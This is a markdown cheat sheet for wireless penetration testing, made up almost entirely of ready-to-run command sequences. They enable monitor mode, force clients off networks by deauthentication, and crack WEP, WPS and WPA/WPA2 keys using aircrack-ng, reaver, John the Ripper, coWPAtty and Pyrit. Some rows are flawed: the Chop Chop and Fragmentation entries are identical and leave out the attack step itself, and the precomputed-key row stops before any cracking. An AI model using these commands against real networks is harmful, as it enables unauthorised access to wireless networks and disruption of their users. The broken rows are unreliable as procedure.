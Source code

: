# Wireless Penetration Testing Cheat Sheet

## Wireless Antenna

| Action                                 | Command                                        |
|----------------------------------------|------------------------------------------------|
| Kill Monitor Processes                | `airmon-ng check kill`                         |
| Open Monitor Mode                      | `ifconfig wlan0 down`<br>`airmon-ng start wlan0`<br>or<br>`iwconfig wlan0 mode monitor`<br>`ifconfig wlan0 up` |
| Increase Wi-Fi TX Power                | `iw reg set B0`<br>`iwconfig wlan0 txpower <NmW|NdBm|off|auto>`<br>Check with `iwconfig` |
| Change Wi-Fi Channel                   | `iwconfig wlan0 channel <SetChannel(1-14)>`    |

## Find Hidden SSID

| Action                                 | Command                                        |
|----------------------------------------|------------------------------------------------|
| Start Monitor Mode                     | `airmon-ng start wlan0`                       |
| Find Hidden SSID                       | `airodump-ng -c <Channel> --bssid <BSSID> mon0`<br>`aireplay-ng -0 20 -a <BSSID> -c <VictimMac> mon0` |

## WEP Cracking (via Client)

| Method                                  | Command                                        |
|-----------------------------------------|------------------------------------------------|
| ARP Request Replay Attack              | `airodump-ng -c <AP_Channel> --bssid <BSSID> -w <FileName> mon0`<br>`macchanger --show mon0`<br>`aireplay-ng -3 -x 1000 -n 1000 -b <BSSID> -h <OurMac> mon0`<br>`aircrack-ng -b <BSSID> <PCAP_of_FileName>` |
| Interactive Packet Replay Attack       | `airodump-ng -c <AP_Channel> --bssid <BSSID> -w <FileName> mon0`<br>`macchanger --show mon0`<br>`aireplay-ng -1 0 -a <BSSID> -h <OurMac> -e <ESSID> mon0`<br>`aircrack-ng -b <BSSID> <PCAP_of_FileName>` |
| SKA (Shared Key Authentication) Cracking | `airodump-ng -c <AP_Channel> --bssid <BSSID> -w <FileName> mon0`<br>`aireplay-ng -0 10 -a <BSSID> -c <VictimMac> mon0`<br>`aircrack-ng <PCAP_of_FileName>` |

## WEP Cracking (Clientless)

| Method                                  | Command                                        |
|-----------------------------------------|------------------------------------------------|
| Chop Chop Attack                        | `airodump-ng -c <AP_Channel> --bssid <BSSID> -w <FileName> mon0`<br>`macchanger --show mon0`<br>`aireplay-ng -1 0 -e <ESSID> -a <BSSID> -h <OurMac> mon0`<br>`packetforge-ng -0 -a <BSSID> -h <OurMac> -k <SourceIP> -l <DestinationIP> -y <XOR_PacketFile> -w <FileName2>`<br>`aircrack-ng <PCAP_of_FileName>` |
| Fragmentation Attack                   | `airodump-ng -c <AP_Channel> --bssid <BSSID> -w <FileName> mon0`<br>`macchanger --show mon0`<br>`aireplay-ng -1 0 -e <ESSID> -a <BSSID> -h <OurMac> mon0`<br>`packetforge-ng -0 -a <BSSID> -h <OurMac> -k <SourceIP> -l <DestinationIP> -y <XOR_PacketFile> -w <FileName2>`<br>`aircrack-ng <PCAP_of_FileName>` |

## WPA / WPA2 Cracking

| Method                                  | Command                                        |
|-----------------------------------------|------------------------------------------------|
| WPS Attack                              | `airmon-ng start wlan0`<br>`apt-get install reaver`<br>`wash -i mon0`<br>`reaver -i mon0 -b <BSSID> -vv -S`<br>or<br>`reaver -i mon0 -c <Channel> -b <BSSID> -p <PinCode> -vv -S` |
| Dictionary Attack                       | `airmon-ng start wlan0`<br>`airodump-ng -c <AP_Channel> --bssid <BSSID> -w <FileName> mon0`<br>`aireplay-ng -0 1 -a <BSSID> -c <VictimMac> mon0`<br>`aircrack-ng -w <WordlistFile> -b <BSSID> <Handshaked_PCAP>` |
| Crack with John The Ripper              | `airodump-ng -c <Channel> --bssid <BSSID> -w <FileName> mon0`<br>`aireplay-ng -0 1 -a <BSSID> -c <VictimMac> mon0`<br>`cd /pentest/passwords/john`<br>`./john --wordlist=<Wordlist> --rules --stdout | aircrack-ng -0 -e <ESSID> -w - <PCAP_of_FileName>`<br>`hccap2john <outFile>.hccap > <JohnOutFile>`<br>`john <JohnOutFile>` |
| Crack with coWPAtty                    | `airmon-ng start wlan0`<br>`airodump-ng -c <Channel> --bssid <BSSID> -w <FileName> mon0`<br>`aireplay-ng -0 1 -a <BSSID> -c <VictimMac> mon0`<br>`cowpatty -r <FileName> -f <Wordlist> -2 -s <SSID>` |
| Crack with Pyrit                       | `airmon-ng start wlan0`<br>`airodump-ng -c <Channel> --bssid <BSSID> -w <FileName> mon0`<br>`aireplay-ng -0 1 -a <BSSID> -c <VictimMac> mon0`<br>`pyrit -r <PCAP_of_FileName> -b <BSSID> -i <Wordlist> attack_passthrough` |
| Precomputed WPA Keys Database Attack   | `airmon-ng start wlan0`<br>`airodump-ng -c <AP_Channel> --bssid <BSSID> -w <FileName> mon0`<br>`aireplay-ng -0 1 -a <BSSID> -c <VictimMac> mon0`<br>`kwrite ESSID.txt`<br>`airolib-ng NEW_DB --import essid ESSID.txt`<br>`airolib-ng NEW_DB --import passwd <DictionaryFile>` |
